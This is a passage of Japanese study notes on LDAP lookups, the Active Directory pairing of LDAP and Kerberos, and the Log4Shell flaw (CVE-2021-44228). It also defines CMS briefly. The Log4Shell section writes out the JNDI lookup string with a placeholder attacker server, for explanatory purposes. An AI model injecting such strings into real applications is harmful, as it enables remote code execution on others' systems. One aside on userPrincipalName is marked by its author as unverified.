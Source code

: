 ::: info
ユーザが入力するのはDNとは限らない。例えばMSのログインだとメールアドレスを入力する。
メールアドレスからDNを特定するには、まずSearch操作でメールアドレスに一致するエントリを探し、そのDNを取得する、というステップを踏む必要がある。
(WindowsのActiveDirectoryだとuserPrincipalName属性にメールアドレスを入れてそれで特定する？chatGPT調べなので信ぴょう性0)
:::

::: info
 **なぜLDAPを使う？**
 LDAPはユーザ属性や、グループ情報などの情報を管理することができる。
 Kerberos単体では、「その人が誰か」のみの証明で、その人がどのグループに所属しているか、などの情報をもたせることができない。
 Active DirectoryはLDAP + Kerberosで構成されており、LDAPでユーザ属性を管理し、Kerberosで認証を行うことで、認証と属性情報の両方を扱うことができる。
:::

### Log4shell脆弱性
CVE-2021-44228.
文字列をログに記録するようなアプリケーションにおいて、ログに記録する文字列に特定のJNDI参照を含めることで、攻撃者の用意したLDAPサーバにアクセスし、悪意のあるJavaクラスをロードさせ、任意のコードを実行させることができる脆弱性。
JNDI(Java Naming and Directory Interface)とは、JavaでディレクトリサービスにアクセスするためのAPI。
外部リソースをLDAP(等のプロトコル)経由で参照、ロードすることができる。

#### 仕組み
Log4jは、ログメッセージ中の`${}`という形式を動的に展開する機能を持っており、
これに`${jndi:ldap://<サーバ>/<パス>}` のような記述を与えると、JNDIを通じてLDAPサーバにアクセスし、指定されたパスのJavaクラスをロードしようとする。
攻撃者は、LDAPサーバを用意し、悪意のあるJavaクラスを配置しておくことで、Log4jを利用するアプリケーションに対して任意のコードを実行させることができてしまう。

## CMS
Content Management System。
Webコンテンツを効率的に管理・運用するためのシステム、フレームワーク。WordPressなど。